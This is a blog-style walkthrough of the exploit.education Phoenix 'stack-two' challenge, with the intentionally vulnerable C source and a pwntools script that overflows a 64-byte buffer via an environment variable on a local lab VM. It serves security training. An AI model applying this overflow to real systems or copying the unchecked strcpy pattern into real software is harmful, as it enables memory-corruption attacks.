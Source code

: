 ## Stack-Two

![](https://cyberguru1.github.io/posts/phoenix/files/st2_header.png)

The source code provided:

### Source Code
---

```
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```
### Let's Dig in the code:
---
- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- A ptr variable of type char* is declared.

- The program prints the welcome message using printf().

- The program retrieves the value of the environment variable "ExploitEducation" using getenv() and assigns it to the ptr variable. If the variable is not set, an error message is displayed using errx().

- The changeme variable is initialized to 0.

- The strcpy() function is used to copy the value of ptr into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x0d0a090a. If true, it outputs a success message.

- If changeme is not equal to 0x0d0a090a, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

### Solution
---
This challenge is very simlar to stack level one, but in this challenge we need to overflow the buffer, change the `changeme` struct variable to `0x0d0a090a` all from the environmental variable, using pwntools we could
accomplish this

```
#!/usr/bin/python
## script by Hamza Saidu
## cyberguru


from pwn import *

# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)

# sending exploit

message ="*"*20 + "setting environmental variable" + "*"*20
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
run_prog = "/opt/phoenix/amd64/stack-two"

print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```

Explanaiton of the code
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
message ="*"*20 + "setting environmental variable" + "*"*20
```
- A string message is created, indicating the intention to set an environmental variable.

```
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
```
- An environmental variable named "ExploitEducation" is defined. The value of this variable is constructed using a command injection technique. It assigns the output of a Python command (print('A'*64)) to the variable, which generates a string of 64 'A' characters.

```
run_prog = "/opt/phoenix/amd64/stack-two"
```
- A variable named run_prog is set to the path of the program that will be executed on the remote server (/opt/phoenix/amd64/stack-two).

```
print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```
- The script is then executed on the remote server. It prints the current environment variables (printenv), displays the message, exports the env_var, prints the updated environment variables, and finally executes the program run_prog with the output of the command execution is received and printed.

So running the program we have:

![](https://cyberguru1.github.io/posts/phoenix/files/st2_result.png)

